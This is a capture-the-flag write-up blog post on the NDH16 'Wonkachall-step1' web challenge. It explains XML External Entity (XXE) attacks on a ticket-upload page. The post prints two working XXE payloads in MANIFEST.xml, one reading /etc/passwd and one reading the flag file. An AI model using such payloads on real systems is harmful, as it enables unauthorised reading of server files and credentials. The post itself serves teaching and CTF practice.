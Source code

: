 ```yaml
---
layout: post
title:  "XML External Entities: Wonkachall-step1 - NDH16"
date:   2018-07-03 22:00:00 +0200
comments: true
author: BoiteAKlou
categories:
- "Writeup"
- "Web"
---
```


This challenge covers one of the most efficient and popular attack against web servers. It is also the first of a series of 6 challenges from the NDH16 public CTF.

 <!--excerpt-->

# Table of Contents
{:.no_toc}

* TOC
{:toc}

## Challenge description

We have [a website](http://willywonka.shop:4242/) which is actually The Golden Ticket Blackmarket platform. It proposes a list of purchasable golden tickets where each ticket has a bitcoin cost, a name and an address.

![Wonka Shop screen capture]({{ "/assets/2018-07-03/tickets.png" | absolute_url }} "Willy Wonka Shop")

The challenge statement says that the flag is stored in ""/flags.txt". The objective is to take control of this website. Hurry up!

## Take my Golden Ticket!

The first reflex to have when you arrive on a website should be to hit "CTRL+U" and dive deep into the source code.
The vast majority of this website is static at the exception of the "/upload.php" page. We are able to upload a zip archive containing a **MANIFEST.xml** and a **Ticket** as shown in the provided example.

![Upload page screen capture]({{ "/assets/2018-07-03/upload.png" | absolute_url }} "Upload page"){:width="80%"}

The **Ticket file** contains a string representing the content of the Golden Ticket and the **MANIFEST.xml** stores the three variables displayed on the home page for each ticket, as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>xxx</adresseBTC>
</root>
```

Wait a second... it means that the server is parsing XML files in order to get these values... Very interesting! :smiling_imp:

Have you ever heard of XML external entities?

## That's not a Ticket

XML External Entity Processing attack aim at exploiting **weakly configured XML parsers**. The objective is to reference external entities inside the XML document in order to **access local resources** or to **execute code remotely**.

Alright, now let's modify our MANIFEST.xml to detect if the website is vulnerable. I suggest the following payload, supposed to include "/etc/passwd" and to display it in place of the ticket's address:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

Then we zip the MANIFEST and the Ticket, we upload it and... :tada:

![XXE disclosure]({{ "/assets/2018-07-03/etcpasswd.png" | absolute_url }} "/etc/passwd"){:width="80%"}

Say Hello to the list of users!

Fine, now we can forge the payload that will allow us to retrieve the flag located under "/flag.txt". This is basically the same payload as before in which we replace the target file as follows:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

And here comes the reward! :triangular_flag_on_post:

![XXE disclosure]({{ "/assets/2018-07-03/flag.png" | absolute_url }} "Flag"){:width="80%"}

You can now read the writeup of Wonkachall-step2 :wink:



<p id="signature">BoiteAKlou :hammer:</p>
